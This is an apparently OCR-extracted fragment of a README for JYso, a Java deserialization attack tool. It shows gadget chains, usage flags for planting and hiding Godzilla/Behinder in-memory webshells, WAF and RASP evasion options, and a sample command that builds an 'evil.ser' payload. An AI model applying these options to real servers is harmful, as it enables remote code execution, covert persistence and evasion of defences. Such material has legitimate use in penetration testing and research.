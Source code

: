 ```payload不区分大小写```
     URLDNS                                      @gebl                                                                                                                                                                                                                      
     Vaadin1                                     @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                          
     Wicket1                                     @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                 



usage: JYso-[version].jar [-ch <arg>] [-dcfp <arg>] [-dl <arg>] [-dt <arg>] [-f <arg>] [-g <arg>] [-gen] [-gzk <arg>] [-h] [-hk <arg>] [-ht <arg>] [-hv <arg>] [-i] [-mcl] [-n <arg>] [-ncs] [-o] [-p
       <arg>] [-pw <arg>] [-rh] [-u <arg>] [-yso <arg>]
 -ch,--cmd-header <arg>                      请求头，将命令传递给执行，默认[X-Token-Data]
 -dcfp,--define-class-from-parameter <arg>   使用 DefineClassFromParameter 时自定义参数名称
 -dl,--dirty-length <arg>                    使用类型 1 或 3 时的脏数据长度/使用类型 2 时的嵌套循环计数
 -dt,--dirty-type <arg>                      利用脏数据绕过WAF，类型：1:Random Hashable Collections/2:LinkedList Nesting/3:Serialized Data中的TC_RESET
 -f,--file <arg>                             将输出写入 FileOutputStream（指定文件名）
 -g,--gadget <arg>                           Java deserialization gadget
 -gen,--gen-mem-shell                        将内存 Shell 类写入文件
 -gzk,--godzilla-key <arg>                   Godzilla key,default [key]
 -h,--hide-mem-shell                         对检测工具隐藏内存外壳（类型2仅支持SpringControllerMS）
 -hk,--header-key <arg>                      MemoryShell 标头检查，请求标头密钥，默认 [Referer]
 -ht,--hide-type <arg>                       隐藏内存shell，输入1：write /jre/lib/charsets.jar 2：write /jre/classes/
 -hv,--header-value <arg>                    MemoryShell 标头检查,请求标头值,默认 [https://QI4L.cn/]
 -i,--inherit                                是否让payload继承AbstractTranslet（低版本的JDK如1.6应该继承）
 -mcl,--mozilla-class-loader                 在 TransformerUtil 中使用 org.mozilla.javascript.DefiningClassLoader
 -n,--gen-mem-shell-name <arg>               内存外壳类文件名
 -ncs,--no-com-sun                           强制使用 org.apache.XXX.TemplatesImpl 而不是 com.sun.org.apache.XXX.TemplatesImpl
 -o,--obscure                                使用反射绕过RASP
 -p,--parameters <arg>                       Gadget parameters
 -pw,--password <arg>                        Behinder 或 Godzilla 密码，默认 [p@ssw0rd]
 -rh,--rhino                                 使用Rhino Engine 把内存马代码转换为JS
 -u,--url <arg>                              MemoryShell绑定url模式，默认[/QI4L]
 -utf,--utf8-Overlong-Encoding               UTF-8 Overlong Encoding Bypass waf
 -yso,--ysoserial <arg>                      Java deserialization


Recommended Usage: -yso -g [payload] -p '[command]' -dt 1 -dl 50000 -o -i -f evil.ser
If you want your payload being extremely short，you could just use:
java -jar JYso-[version].jar -yso 1 -g [payload] -p '[command]' -i -f evil.ser
```

## 2.1 利用方式


[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)